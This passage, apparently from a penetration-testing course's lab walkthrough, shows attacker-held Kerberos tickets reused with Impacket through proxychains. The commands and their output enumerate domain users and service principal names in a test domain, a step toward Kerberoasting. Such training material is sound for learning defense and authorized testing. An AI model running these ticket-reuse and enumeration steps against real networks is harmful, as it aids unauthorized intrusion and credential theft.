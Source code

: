 ```bash
07/30/2020 15:11:10 07/31/2020 01:11:10 krbtgt/CORP1.COM@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:41 07/31/2020 01:11:10 ldap/dc01.corp1.com@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:57 07/31/2020 01:11:10 MSSQLSvc/DC01.corp1.com:1433@CORP1.COM
renew until 08/06/2020 15:11:08
```

# Using Kerberos with Impacket

If we have tickets injected in our local linux box, we can use Impacket alongside the `-k` flag to use them. We can examine the list of domain users with `GetADUsers.py`:
```bash
kali@kali:~$ proxychains python3 /usr/share/doc/python3-
impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5
CORP1.COM/Administrator
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
...
[*] Querying DC01 for information about domain.
Name Email PasswordLastSet LastLogon
-------------------- ------------------------------ ------------------- ----------- --------
Administrator 2020-06-09 07:07:34.259645
2020-07-30 15:18:34.031633
Guest <never> <never>
krbtgt 2020-06-09 07:22:08.937707
<never>
offsec 2020-06-15 07:34:58.841850
<never>
setup 2020-06-15 07:35:40.209134
2020-06-15 15:24:01.455022
sqlsvc 2020-06-15 07:37:26.049078
2020-07-08 09:21:43.005075
admin 2020-06-15 07:39:32.340987
2020-07-29 18:26:00.427117
jeff 2020-06-15 07:40:06.571361
2020-06-15 15:23:15.203875
dave 2020-06-15 07:40:59.512944
2020-07-30 09:27:53.384254
```

It’s also possible to get a list of the SPNs available to our Kerberos user:
```bash
kali@kali:~$ proxychains python3 /usr/share/doc/python3-
impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5
CORP1.COM/Administrator
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
...
ServicePrincipalName Name MemberOf
PasswordLastSet LastLogon Delegation
-------------------------------------- ------ --------------------------------------
------ -------------------------- -------------------------- ----------
MSSQLSvc/appsrv01.corp1.com:1433 sqlsvc
CN=Administrators,CN=Builtin,DC=corp1,DC=com 2020-06-15 07:37:26.049078 2020-07-08
09:21:43.005075
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS sqlsvc
CN=Administrators,CN=Builtin,DC=corp1,DC=com 2020-06-15 07:37:26.049078 2020-07-08
09:21:43.005075
MSSQLSvc/dc01.corp1.com:1433 sqlsvc
CN=Administrators,CN=Builtin,DC=corp1,DC=com 2020-06-15 07:37:26.049078 2020-07-08
09:21:43.005075
MSSQLSvc/dc01.corp1.com:SQLEXPRESS sqlsvc
```